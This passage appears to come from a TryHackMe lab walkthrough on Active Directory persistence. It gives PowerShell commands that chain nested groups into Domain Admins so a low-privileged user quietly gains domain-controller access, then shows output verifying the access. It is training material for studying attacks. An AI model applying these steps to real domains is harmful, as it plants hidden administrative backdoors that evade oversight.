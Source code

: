```markup
PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup5" -Members "<username>_nestgroup4"
```

With the last group, let's now add that group to the Domain Admins group:

```markup
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"
```

Lastly, let's add our low-privileged AD user to the first group we created:

```markup
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"
```

Instantly, your low-privileged user should now have privileged access to THMDC. Let's verify this by using our SSH terminal on THMWRK1:

```markup
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>dir \\thmdc.za.tryhackme.loc\c$\ 
 Volume in drive \\thmdc.za.tryhackme.loc\c$ is Windows 
 Volume Serial Number is 1634-22A9

 Directory of \\thmdc.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1     
05/01/2022  09:11 AM               169 dns_entries.csv
09/15/2018  08:19 AM    <DIR>          PerfLogs
05/11/2022  10:32 AM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
05/01/2022  09:17 AM             1,725 thm-network-setup-dc.ps1    
04/25/2022  07:13 PM    <DIR>          tmp
05/15/2022  09:16 PM    <DIR>          Tools
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant] 
04/27/2022  08:12 PM    <DIR>          Windows
               3 File(s)          1,997 bytes
               8 Dir(s)  51,573,755,904 bytes free
```

Let's also verify that even though we created multiple groups, the Domain Admins group only has one new member:

```markup
PS C:\Users\Administrator.ZA> Get-ADGroupMember -Identity "Domain Admins"


distinguishedName : CN=Administrator,CN=Users,DC=za,DC=tryhackme,DC=loc
name              : Administrator
objectClass       : user
objectGUID        : 0bbd7980-b53b-4634-8a28-57e4234655c2
SamAccountName    : Administrator
SID               : S-1-5-21-3885271727-2693558621-2658995185-500

distinguishedName : CN=Am0 Net Group 5,OU=IT,OU=People,DC=za,DC=tryhackme,DC=loc
name              : Am0 Net Group 5
objectClass       : group
objectGUID        : ba545574-6af9-4a3d-a8df-24ab582fc04c
SamAccountName    : am0_nestgroup5
SID               : S-1-5-21-3885271727-2693558621-2658995185-6163
```
